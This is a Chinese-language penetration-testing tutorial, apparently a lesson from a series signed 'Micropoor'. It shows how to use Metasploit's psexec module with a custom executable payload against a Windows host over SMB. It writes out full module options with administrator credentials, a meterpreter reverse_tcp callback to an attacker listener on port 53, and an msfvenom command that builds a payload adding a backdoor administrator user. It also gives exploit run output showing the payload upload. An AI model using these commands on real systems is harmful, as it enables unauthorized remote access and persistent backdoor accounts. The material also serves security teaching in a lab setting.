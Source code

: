 MSF的exploit模块下是支持set payload的，同样在复杂的网络环境下，许多模块也同样支持自定义的payload。可以更好的配合第三方框架，如第十一课中提到的Veil-Evasion等。

以exploit/windows/smb/psexec为demo。

攻击机配置如下：
```bash
msf exploit(windows/smb/psexec) > show options 

Module options (exploit/windows/smb/psexec): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
RHOST 192.168.1.119 yes The target address
RPORT 445 yes The SMB service port (TCP)
SERVICE_DESCRIPTION no Service description to to be used on target fo rpretty listing
SERVICE_DISPLAY_NAME no The service display name
SERVICE_NAME no The service name
SHARE ADMIN\$ yes The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
SMBDomain . no The Windows domain to use for authentication
SMBPass 123456 no The password for the specified username
SMBUser administrator no The username to authenticate as Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 192.168.1.5 yes The listen address (an interface may be specified)
LPORT 53 yes The listen port 

Exploit target: 
Id Name
‐‐ ‐‐‐‐
0 Automatic 
```
![](/img/a88d25b5d8817aab5ef240672283dc24.jpg)

需设置一非，常用选项：

```bash
msf exploit(windows/smb/psexec) > set EXE::CUSTOM /var/www/html/bin_tcp_x86_53.exe
EXE::CUSTOM => /var/www/html/bin_tcp_x86_53.exe
```
![](/img/adf249249993b5500e984f8c8bc6eba2.jpg)

靶机当前端口如下：  

![](/img/7e2ed442134c4d03288e48471a79360d.jpg)

攻击机执行：

![](/img/0f2ab61af6eba4c35ce5f14a3eadee06.jpg)

靶机端口变化如下：

虽报错，但并不影响执行。  

![](/img/f052e2fa45e58d72f484f56afb1772d9.jpg)

**注意：**

Psexec创建一个服务后，来运行可执行文件（如Micropoor.exe）。但是将可执行文件作为服务，payload必须接受来自控制管理器的命令，否则将会执行失败。而psexec创建服务后，将随之停止，该payload处于挂起模式。

参考该服务源码：  

https://github.com/rapid7/metasploit-framework/blob/master/data/templates/src/pe/exe/service/service.c  

payload启动后，将会在过一段时间内退出。并强制终止。

故该参数一般用于adduser。配合adduser_payload。或者配合一次性执行完毕非常连接的payload。如下载。抓明文密码等。不适合需长连接通信的payload。

```bash
root@John:/tmp# msfvenom ‐p windows/adduser PASS=Micropoor$123 USER=Micropoor ‐f exe >adduser.exe
[‐] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[‐] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 279 bytes
Final size of exe file: 73802 bytes 
```

![](/img/6c388c67acdf21788d40d364d510e93e.jpg)

**同样可以配合target的改变来解决控制管理器的强制命令接收。**

**攻击机设置：**

```bash
msf exploit(windows/smb/psexec) > show targets 

Exploit targets: 

Id Name
‐‐ ‐‐‐‐
0 Automatic
1 PowerShell
2 Native upload
3 MOF upload
msf exploit(windows/smb/psexec) > set target 2
target => 2
msf exploit(windows/smb/psexec) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53
[*] 192.168.1.119:445 ‐ Connecting to the server...
[*] 192.168.1.119:445 ‐ Authenticating to 192.168.1.119:445 as user 'administrator'...
[*] 192.168.1.119:445 ‐ Uploading payload... kKwZpPRs.exe
[*] 192.168.1.119:445 ‐ Using custom payload /var/www/html/bin_tcp_x86\_53.exe, RHOST and RPORT settings will be ignored!
[*] 192.168.1.119:445 ‐ Created kKwZpPRs.exe...
[‐] 192.168.1.119:445 ‐ Unable to remove the service, ERROR_CODE:
[‐] 192.168.1.119:445 ‐ Exploit failed: RubySMB::Error::UnexpectedStatusCode STATUS_PIPE_EMPTY
[*] Exploit completed, but no session was created.
```
![](/img/f0440595204a8fb13d4f8dbcf22925ec.jpg)

目标机：  

![](/img/e5b1a086c8f9b612acde771c1cb82884.jpg)

在执行payload即可。

>   Micropoor
